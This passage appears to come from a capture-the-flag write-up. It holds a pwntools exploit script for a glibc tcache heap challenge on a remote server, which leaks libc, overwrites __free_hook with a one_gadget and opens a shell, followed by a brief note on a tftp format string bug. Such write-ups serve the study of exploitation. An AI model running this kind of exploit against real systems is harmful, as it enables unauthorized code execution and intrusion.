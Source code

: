 Malloc 0x30, there are two heap with same address.
Double free the same address and modify the fd to `__free_hook`.
Modify `__free_hook` value to `one_gadget` and get shell.


```python=
from pwn import *

#r = process(["./children_tcache"])
r = remote("54.178.132.125", 8763)
def add(size,data):
        r.sendlineafter("choice:","1")
        r.sendlineafter(":",str(size))
        r.sendafter(":",data)

def show(idx):
        r.sendlineafter("choice:","2")
        r.sendlineafter(":",str(idx))

def remove(idx):
        r.sendlineafter("choice:","3")
        r.sendlineafter(":",str(idx))

add(0x500,"a") #0
add(0x20,"a")  #1
add(0x20,"a")  #2
add(0x4f0,"a") #3
add(0x20,"a") #4

remove(2)
add(0x28,"a"*0x28) #2
remove(2)
add(0x27,"a"*0x27) #2
remove(2)
add(0x26,"a"*0x26) #2
remove(2)
add(0x25,"a"*0x25) #2
remove(2)
add(0x24,"a"*0x24) #2
remove(2)
add(0x23,"a"*0x23) #2
remove(2)
add(0x22,"a"*0x20+p16(0x570)) #2
remove(0)
remove(3)
add(0x500,"a") #0
show(1)
libc = u64(r.recvline()[:-1].ljust(8,'\x00'))-0x3ebca0
print hex(libc)

add(0x30,"a")
remove(1)
remove(3)
add(0x30,p64(libc+0x3ed8e8))
add(0x30,"a")
add(0x30,p64(libc++0x4f322))
remove(1)


r.interactive()

```
### tftp
There is a format string vulnerability when mode is unknown.
